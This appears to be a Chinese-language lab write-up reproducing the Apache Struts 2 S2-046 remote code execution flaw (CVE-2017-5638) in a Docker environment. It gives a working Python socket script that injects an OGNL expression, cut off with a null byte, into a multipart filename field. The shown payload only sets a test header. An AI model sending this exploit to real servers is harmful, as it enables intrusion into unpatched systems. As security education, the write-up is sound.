

# S2-046 远程代码执行漏洞（CVE-2017-5638）

影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

漏洞详情:

 - https://cwiki.apache.org/confluence/display/WW/S2-046
 - https://xz.aliyun.com/t/221

## 漏洞环境

执行如下命令启动struts2 2.3.30：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到上传页面。

## 漏洞复现

与s2-045类似，但是输入点在文件上传的filename值位置，并需要使用`\x00`截断。

由于需要发送畸形数据包，我们简单使用原生socket编写payload：

```python
import socket

q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',233*233)}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d

'''.replace(b'\n', b'\r\n') % (len(q), )

with socket.create_connection(('your-ip', '8080'), timeout=5) as conn:
    conn.send(p + q)
    print(conn.recv(10240).decode())

```

`233*233`已成功执行：


